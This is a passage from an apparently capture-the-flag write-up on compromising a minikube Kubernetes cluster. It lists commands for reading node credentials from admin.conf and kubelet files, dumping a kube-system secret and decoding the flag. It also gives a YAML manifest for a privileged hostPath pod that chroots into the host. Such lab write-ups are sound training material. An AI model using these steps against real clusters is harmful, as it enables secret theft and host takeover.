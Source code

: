 Method B - Access existing container with more privileges:

```bash
# Find the minikube node container or access containerd
ls -la /host/var/lib/minikube/
```

**Step 4: Access kube-system Secrets**

Once on the node, you can access the Kubernetes data directory:

```bash
# Access etcd data or use node's kubelet credentials
export KUBECONFIG=/etc/kubernetes/admin.conf

# Or access secrets directly from disk
find /var/lib/kubelet/ -name "*.yaml" -o -name "secrets"

# Use kubectl (if available on node)
kubectl get secrets -n kube-system crown-jewels -o yaml

# Decode final flag
echo "ZmxhZ3t5MHVfcHduM2RfdGgzX2NsdXN0M3JfYzBuZ3I0dHN9" | base64 -d
# Flag found: flag{y0u_pwn3d_th3_clust3r_c0ngr4ts}
```

### Method 2: Service Account Privilege Escalation

If the python-web service account had additional permissions (like pod create or exec), you could:

```bash
# Create privileged pod
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privesc-pod
  namespace: production
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: escalate
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "chroot /host && bash"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
EOF

# Exec into it
kubectl exec -it privesc-pod -n production -- /bin/sh
```

---